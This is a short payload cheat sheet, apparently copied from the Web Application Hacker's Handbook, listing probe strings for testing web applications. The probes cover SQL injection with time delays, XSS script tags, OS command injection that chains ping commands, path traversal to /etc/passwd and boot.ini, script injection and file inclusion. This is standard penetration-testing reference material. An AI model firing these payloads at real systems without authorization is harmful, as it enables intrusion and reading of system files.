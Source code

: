 # Retyped from page 825 of the Web Application Hacker's Handbook, 2nd Ed.

# SQL Injection
```
'
'--
'; waitfor delay '0:30:0'--
1; waitfor delay '0:30:0'--
```
# XSS and Header Injection
```
xsstest
"><script>alert('xss')</script>
```

# OS Commnand Injection
```
|| ping -i 30 127.0.0.1 ; x || ping -n 30 127.0.0.1 &
| ping -i 30 127.0.0.1 |
| ping -n 30 127.0.0.1 |
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
; ping 127.0.0.1 ;
%0a ping -i 30 127.0.0.1 %0a
` ping 127.0.0.1 `
```

# Path Traversal
```
../../../../../../../../../../etc/passwd
../../../../../../../../../../boot.ini
..\..\..\..\..\..\..\..\..\..\etc\passwd
..\..\..\..\..\..\..\..\..\..\boot.ini
```

# Script Injection
```
;echo 111111
echo 111111
response.write 111111
:response.write 111111
```

# File Inclusion
```
http://<your server name>/
http://<nonexistent IP address>/
```
